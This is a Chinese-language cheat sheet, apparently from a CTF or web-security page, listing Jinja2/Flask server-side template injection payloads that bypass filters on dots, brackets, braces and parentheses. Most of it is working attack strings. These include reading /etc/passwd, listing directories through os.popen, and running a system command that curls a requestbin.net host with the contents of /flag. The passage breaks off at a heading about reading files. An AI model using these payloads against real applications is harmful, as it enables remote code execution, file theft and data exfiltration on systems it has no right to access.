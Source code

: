 **同样利用`request.args`属性。**

```
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}?&class=__class__&mro=__mro__&subclasses=__subclasses__
```

或者`request.values`属性。

```
{{()|attr(request.values.x)|attr(request.values.y)|attr(request.values.a)()|attr(request.values.z)(185)|attr(request.values.b)|attr(request.values.c)|attr(request.values.z)(request.values.d)|attr(request.values.z)(request.values.e)(request.values.f)|attr(request.values.g)|attr(request.values.z)(request.values.h)(request.values.i)}}&x=__class__&y=__base__&z=__getitem__&a=__subclasses__&b=__init__&c=__globals__&d=__builtins__&e=__import__&f=os&g=__dict__&h=system&i=curl http://requestbin.net/r/1eqk6r61?p=`cat /flag`
```

#### **点 .**

`''.__class__`可以写成 `getattr('','__class__')`或者 `''|attr('__class__')`。

`''.eval`可以写成 `''|attr('__getitem__')('eval')`。

`''.__class__`可以写成`''['__class__']`

#### **双花括号**

`{%if [expression]==[value]%} yes {%endif%}`

`{%print()%}`

unicode字符：`︷︷︸︸`

#### **圆括号**

unicode字符：`⁽⁾`，`₍₎`

对函数执行方式重载，如 `request.__class__.__getitem__=__builtins__.exec;`，执行`request[payload]` 时相当于 `exec(payload)`。

lambda表达式。

#### **外部参数利用**（爆破下标）

`request.args`或`request.values`。

#### **列目录**

复制

```
{{{}|attr(request.args.param)|attr(request.args.mro)|attr(request.args.sub)()|attr(request.args.item)(475)|attr(request.args.init)|attr(request.args.g)|attr(request.args.item)(request.args.mod)|attr(request.args.func)(request.args.cmd)|attr(request.args.re)()}}&param=__class__&mro=__base__&sub=__subclasses__&item=__getitem__&init=__init__&g=__globals__&mod=os&func=popen&cmd=ls&re=read
```

#### **读文件**
